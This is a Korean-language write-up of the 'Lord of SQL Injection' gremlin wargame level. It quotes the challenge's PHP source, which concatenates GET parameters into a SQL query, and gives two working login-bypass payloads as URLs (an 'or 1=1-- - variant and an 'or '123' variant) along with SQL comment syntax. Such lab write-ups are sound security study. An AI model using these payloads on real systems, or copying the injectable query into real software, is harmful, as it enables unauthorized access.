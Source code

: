 Lord of SQL Injection No.1 - gremlin
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
위 코드에서 알수 있는 것
4번째와 5번째줄 if문의 preg_match에서 id와 pw에 . 이나 ()가 들어가있으며 No Hack ~_~라고 뜨고 문제 풀이에 실패하게되는걸 알수있다.
DB에 저장되있는 값인 $result[id]에 어떠한 값이라도 들어가 있으면 문제를 풀수있다.

문제풀이 법
1) http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or 1=1-- -
그냥 읽어보자면 아이디의 값이 123이거나 1=1 곧 참이라는 것이다.
뒤에 -- -는 뒤에 올 pw 및 다른 값들을 입력하지 않아도 되도록 주석처리를 하는것이다.

*주석처리 법 --%20(%20은 공백), #,/**/

id=123 or 1=1-- -이 아니라 id=123' 싱글 쿼터로 닫아 줌으로써 하나의  id 값을 마무리해주면 sql문을 입력할 수 있게되는데
or연산은 앞에 값이 틀리더라도 뒤의 값이 참이면 참이게 되는 연산으로 or연산을 써줌으로 $result[id]가 참이 되어 문제가 풀리게된다.

2)http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=123'or%20'123'%20-- -
이번 방법은 위의 방법과 동일하지만 '0'이 아닌 어떠한 문자열이 들어오게되면 이 값은 참으로 받아들여지게되어 문제가 풀리게된다.
